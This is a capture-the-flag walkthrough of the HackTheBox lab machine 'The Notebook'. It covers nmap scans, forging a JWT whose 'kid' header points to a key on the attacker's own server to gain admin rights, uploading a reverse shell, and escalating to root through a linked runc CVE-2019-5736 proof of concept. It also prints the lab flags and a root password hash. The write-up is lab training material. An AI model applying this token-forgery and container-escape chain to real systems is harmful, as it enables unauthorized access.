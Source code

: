 # The Notebook Hackthebox Walkthrough

## All Ports Scan

```bash
┌─[R4hn1]─[10.10.14.45]─[root@V0ld3rm0rt]─[/media/root/Data/Walkthrough/HackTheBox/TheNotebook]
└────╼ # nmap -vv -p- 10.10.10.230
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-10 13:47 EDT
Scanning 10.10.10.230 [65535 ports]
Discovered open port 80/tcp on 10.10.10.230
Discovered open port 22/tcp on 10.10.10.230
Not shown: 65532 closed ports
Reason: 65532 resets
PORT      STATE    SERVICE REASON
22/tcp    open     ssh     syn-ack ttl 63
80/tcp    open     http    syn-ack ttl 63
10010/tcp filtered rxapi   no-response

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 767.24 seconds
           Raw packets sent: 69783 (3.070MB) | Rcvd: 69840 (2.822MB)
```

## Complete Scan

```bash
┌─[R4hn1]─[10.10.14.45]─[root@V0ld3rm0rt]─[/media/root/Data/Walkthrough/HackTheBox/TheNotebook]
└────╼ # nmap -vv -sV -sC -sT -A -p22,80 -oA TheNotebook 10.10.10.230
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-10 13:28 EDT
Scanning 10.10.10.230 [2 ports]
Discovered open port 80/tcp on 10.10.10.230
Discovered open port 22/tcp on 10.10.10.230

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 86:df:10:fd:27:a3:fb:d8:36:a7:ed:90:95:33:f5:bf (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCZwjrB05nGUvacI81YxNqy+6WpPHhIju6c73aoiru9nW/aVhTmOEsSOGoChEXeQeDN67ZN5QW4LFf0tXeQeJqvgO82HtFkUOiN8tt1RpI98SV+hx8scCzpmtAyu1OJSUM3/cL2tEPTcPHAgHTmroWiXxIMPhTFLIoDVBIqmBrORUIwgjIzFUbEDQJXKPkFciofbowVOkHnT+lv5XokU6571wrX/LRJvTNBEAvbbz0HAfvUkne8ycQsW08qk/BugiLnJHLg24YryGdHl5RqqW/42fsUADngFLncy2+/XCo8Pe/erO+7Zw6r4n1qVb0W0BZ+lRflcRss3diM/21R6O0z
|   256 e7:81:d6:6c:df:ce:b7:30:03:91:5c:b5:13:42:06:44 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLeuBF/ZBUM0ZBYW4+vgQMhIPWVs2fzv9lmQHoflWFNMP/sFWZDeVneJE0CRSLnYi2y/wwc079bIsQRibay3Fpg=
|   256 c6:06:34:c7:fc:00:c4:62:06:c2:36:0e:ee:5e:bf:6b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDg0mzA1xTe9hivlJN4s+7eXaiyIYefpyykHIir3btEA
80/tcp open  http    syn-ack nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: B2F904D3046B07D05F90FB6131602ED2
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: The Notebook - Your Note Keeper
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.91%E=4%D=6/10%OT=22%CT=%CU=30481%PV=Y%DS=2%DC=T%G=N%TM=60C24BE2%P=x86_64-pc-linux-gnu)
SEQ(SP=105%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)
OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)
WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=40%CD=S)
           Raw packets sent: 58 (3.988KB) | Rcvd: 88 (4.796KB)
```

## Port 80 Enumeration

![](Images/Pasted%20image%2020210610134907.png)

### Found JWT Token 

![](Images/Pasted%20image%2020210610135406.png)

``` java
JWT Token : eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly9sb2NhbGhvc3Q6NzA3MC9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJlbWFpbCI6InVzZXJAZGVtby5jb20iLCJhZG1pbl9jYXAiOjB9.aXmyu2l5LiPXYaofV-h3vQ9FI0_5FCL5PSmxaSJ7JOT6q7R35fY38x2TPq6lvdXvbqGATFgwtOWYXYv7_fzDM3ZKMx9NQrFBPug_ShdvwGrv3EF_IIdUbJB_WLoI8dLJFPbf5-eKUZbUbNKYeR9PcTq4bXfOr9W1wx67sbUdSrUNxFn008wnL7-RI7DF_fusUKk7U_IUPWmoKxy1faAU3huOzJFIlQd5u89ajSkiUwFQWcAJ2JfcNCpwGH_4vy-rAt-qWCwqGPC1HDZIHdA7k9nTKflyegWmfVT1FXM1V23_9kNl80o7rFX5V0JDlXb7eI9dSWdg0XcPAMGdlBAQY6lgbVjUNJ5EvjO9YaO5vwWQ8Fyck-EEjGHj_xt1hh1CfMGPQxvY2VY3QSyw2MuhPHQvDRgDphvhB7b3BysxJkipO1S5pO13XLDsHKpXZ-2aUJ1Kp1uhsqY8vAm47_0kmlQTlQVZfln-F1KFmvQVdSPxp_iRqUCdsS5FESAfPhTtS_jKBi2gLGsR9WCs_kETLm6p9OVGxdUo33eA6h0Q1d4QPnxmLlsMNyqhhTDkXco9B4GjucvsURu2D6VWRGE_WJK4ZKU2FRFYMo6uzN2742GCrMSLcWZQHZx3hYtv6hMBikXof2UR9ym7xqX71J8uTifar3kDCR9pJXRuKdN70VA
```

![](Images/Pasted%20image%2020210610135529.png)

### Refrence Link

https://gist.github.com/ygotthilf/baa58da5c3dd1f69fae9

# Genrating JWT Token

##### Using jwt.io to genrate token
https://jwt.io/

```bash
# ssh-keygen -t rsa -b 4096 -m PEM -f privKey.key
# openssl rsa -in privKey.key -pubout -outform PEM -out privKey.key.pub
# cat privKey.key.pub
# cat privKey.key
```

![](Images/Pasted%20image%2020210610140116.png)

```java
JWT Token (Decoded) :
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "http://10.10.14.45/privKey.key"
}

{
  "username": "user",
  "email": "user@demo.com",
  "admin_cap": 1
}
```

## JWT Token Manipulation

Intercept the request and manipulate token using Burpsuite or Cookie Editor,
Open python server on your local system so the machine can call the file.

![](Images/Pasted%20image%2020210610140645.png)

### Got the option to upload Reverse Shell

![](Images/Pasted%20image%2020210610140735.png)

## Here we got the shell

![](Images/Pasted%20image%2020210610141147.png)

## user Privese

![](Images/Pasted%20image%2020210610141424.png)

## We got the user

![](Images/Pasted%20image%2020210610141728.png)

```bash
User FLag: 1dba4e6e05f2a3e276359df8bdeedc54
````

![](Images/Pasted%20image%2020210610141822.png)

![](Images/Pasted%20image%2020210610141851.png)

## Got the exploit

https://github.com/Frichetten/CVE-2019-5736-PoC

### Download Exploit to machine

![](Images/Pasted%20image%2020210610142805.png)

![](Images/Pasted%20image%2020210610142824.png)

##### Successfully Executed

![](Images/Pasted%20image%2020210610143413.png)

# Hash 

```bash
 Root Flag : bbeca0815c3841c5e0e2811b50da4619
 Root Hash : $6$OZ7vREXE$yXjcCfK6rhgAfN5oLisMiB8rE/uoZb7hSqTOYCUTF8lNPXgEiHi7zduz1mrTWtFnhKOCZA9XZu12osORyYnKF.
 ```
